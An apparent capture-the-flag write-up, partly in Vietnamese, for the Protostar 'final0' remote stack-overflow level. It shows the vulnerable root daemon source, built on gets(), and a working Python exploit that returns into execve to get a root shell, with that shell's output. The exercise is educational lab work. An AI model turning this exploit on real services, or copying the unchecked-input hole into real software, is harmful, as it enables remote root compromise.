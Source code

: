 # FINAL ZERO

## About

This level combines a stack overflow and network programming for a remote overflow.

Hints: depending on where you are returning to, you may wish to use a toupper() proof shellcode.

Core files will be in /tmp.

This level is at /opt/protostar/bin/final0

## Source code

```C
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```

## Solutions

`FINAL ZERO` là khai thác `stack overflow` và `remote`.

File final0.py

```
import struct
import socket
import telnetlib

HOST = '127.0.0.1'
PORT = 2995
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

padding = "a"*510+"\x00"+"aaaabbbbccccddddeeeef"
execve = struct.pack("I", 0x08048c0c)
binsh = struct.pack("I", 1176511 + 0xb7e97000)
exploit = padding + execve + "AAAA" + binsh + "\x00"*8

s.send(exploit+"\n")
s.send("id\n")
print s.recv(1024)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

Khai thác.

```
root@protostar:/# /opt/protostar/bin/final0
root@protostar:/tmp# python final0.py
uid=0(root) gid=0(root) groups=0(root)

uname -a
Linux protostar 2.6.32-5-686 #1 SMP Mon Oct 3 04:15:24 UTC 2011 i686 GNU/Linux


```

## Documents

[Final0](https://www.youtube.com/watch?v=HAN8Qun26cQ)

[Reference](https://github.com/z3tta/Exploit-Exercises-Protostar)



